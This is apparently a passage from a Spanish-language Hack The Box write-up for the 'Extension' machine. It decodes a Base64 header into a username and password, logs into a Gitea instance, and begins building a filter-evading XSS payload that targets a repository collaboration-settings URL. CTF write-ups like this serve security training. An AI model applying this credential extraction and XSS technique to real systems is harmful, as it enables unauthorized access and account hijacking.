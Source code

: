 La cabecera está encodeada en Base64, así que vamos a decodearla

```sh
❯ echo "amVhbjpFSG1mYXIxWTdwcEE5TzVUQUlYblluSnBB" | base64 -d; echo
jean:EHmfar1Y7ppA9O5TAIXnYnJpA
```

Con estas credenciales nos podremos loguear en el login del subdominio `dev`

![](/assets/img/HTB/Extension/gitea_login.png)

Encontramos un repositorio llamado `Extension` que está en privado, vamos a echarle un vistazo

![](/assets/img/HTB/Extension/gitea_repos.png)

Si nos fijamos en los commits simplemente ha cambiado la operación `return`

![](/assets/img/HTB/Extension/fail.png)

Ahora la idea es crear un payload XSS sin los simbolos, que se puede ver que los borra

Definiremos la variable `u` que ha de valer la url de destino donde enviaremos la petición

```js
var u = 'http://dev.snippet.htb/charlie/backups/settings/collaboration';
```
